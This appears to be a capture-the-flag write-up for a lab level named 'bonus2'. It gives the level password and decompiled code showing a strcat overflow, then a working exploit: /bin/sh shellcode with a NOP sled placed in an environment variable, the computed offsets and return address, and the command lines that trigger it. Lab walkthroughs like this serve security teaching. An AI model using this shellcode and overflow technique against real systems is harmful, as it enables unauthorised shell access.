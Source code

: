 # Bonus 2
*password : 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245*

```
$ scp -P 4242 bonus2@192.168.56.108:bonus2 binary/
```

## Analyze

in greetuser() :
```
  if (language == 1) {
    local_4c = 0xc3767948;
    ...
  }
  else {
    if (language == 2) {
      local_4c = 0x64656f47;
      ...
    }
    else {
      if (language == 0) {
        local_4c = 0x6c6c6548;
        ...
      }
    }
  }
strcat(&local_4c,&stack0x00000004);
puts(&local_4c);
...
```

```
$ ./bonus2 test ok
Hello test
```

conclusion :
- language = 0
- local_4c = "Hello "
- &stack0x00000004 = av[1]

## Buffer overflow : strcat exploit

- find the correct length of the first parameter to overwrite all '/0' until the second parameter => `40`
- use the second parameter to launch the shellcode
    - find the offset => `26`
    - get the shellcode address => `0xbffff832`
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
$ /tmp/a.out
0xbffff832
$ ./bonus2 $(python -c 'print "\x42" * 40') $(python -c 'print "\x42" * 26 + "\x32\xf8\xff\xbf"')
```
